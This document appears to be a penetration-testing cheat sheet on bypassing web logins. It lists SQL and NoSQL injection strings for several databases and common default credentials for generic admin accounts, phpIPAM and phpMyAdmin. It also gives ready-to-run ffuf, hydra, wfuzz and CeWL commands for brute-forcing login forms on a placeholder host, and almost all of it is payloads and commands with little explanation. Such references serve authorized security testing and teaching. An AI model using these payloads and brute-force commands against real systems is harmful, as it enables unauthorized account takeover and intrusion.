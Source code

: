 ```yaml
---
title: Web Login Bypass
desc: 
tags: [Burp, Ffuf, Hydra, Login, SQLi, Web, Wfuzz]
alts: [API-Pentesting]
render_with_liquid: false
---
```


## SQL Injections

```
admin' or '1'='1
```

- **Microsoft, Oracle, PostgreSQL**

    ```
    admin'--
    admin' or 1=1--
    ```

- **MySQL**

    ```
    admin'-- [need to add space after '--']
    admin'#
    admin' or 1=1#
    ```

- **Mongo**

    ```
    admin' || 1==1//
    admin' || 1==1%00
    admin' || '1==1
    ```

<br />

## Default Credentials

```sh
admin:admin
admin:password
admin:password1
admin:password123
administrator:password
administrator:password1
administrator:password123

# phpIPAM
admin:ipamadmin
Admin:ipamadmin

# PHPMyAdmin
root:(null)
root:password
```

<br />

## Brute Force Credentials

1. **Prepare Wordlists**

    - **Rockyou**

        It is often located in **"/usr/share/wordlists/rockyou.txt"** in Linux.

    - **[SecLists](https://github.com/danielmiessler/SecLists){:target="_blank"}**

        It is often located in **"/usr/share/seclists"** in Linux.

    - **[CeWL](https://github.com/digininja/CeWL){:target="_blank"}**

        Generate the custom wordlist from the target web page.
    
        ```sh
        cewl https://vulnerable.com > scraped_words.txt
        ```

2. **Brute Force using Tools**

    - **Ffuf**

        ```sh
        # -fc: Filter HTTP status code
        ffuf -w passwords -X POST -d "username=admin&password=FUZZ" -u http://vulnerable.com/login -fc 401
        ```

    - **Hydra**

        ```sh
        # Cracking username
        hydra -L usernames.txt -p password vulnerable.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid username"
        # Cracking password
        hydra -l username -P passwords.txt vulnerable.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid password"

        # HTTPS (https-post-form)
        hydra -L usernames.txt -P passwords.txt vulnerable.com https-post-form "/login:username=^USER^&password=^PASS^:Username or password is incorrect"

        
        # Cracking the Authorization or WWW-Authenticate in the request header.
        hydra -L usernames.txt -P passwords.txt <target-ip> http-get
        ```

    - **Wfuzz**

        ```sh
        # Cracking username
        wfuzz -z file,./usernames.txt -d "username=FUZZ&password=password" https://vulnerable.com/login
        # Cracking password
        wfuzz -z file,./passwords.txt -d "username=admin&password=FUZZ" https://vulnerable.com/login

        # -- Options --------------------------------------------------------------------------------------------

        # --hc: Hide the specific status code
        wfuzz -z file,./usernames.txt -d "username=FUZZ&password=password" --hc 302 http://vulnerable.com/login
        # --hh: Hide the specific chars (Content-Length)
        wfuzz -z file,./passwords.txt -d "username=admin&password=FUZZ" --hh 783 http://vulnerable.com/login

        # --sc: Show the specific statuc code
        wfuzz -z file,./usernames.txt -d "username=FUZZ&password=password" --sc 302 http://vulnerable.com/login
        # --sh: Show the specific chars (Content-Length)
        wfuzz -z file,./passwords.txt -d "username=admin&password=FUZZ" --sh 1214 http://vulnerable.com/login
        ```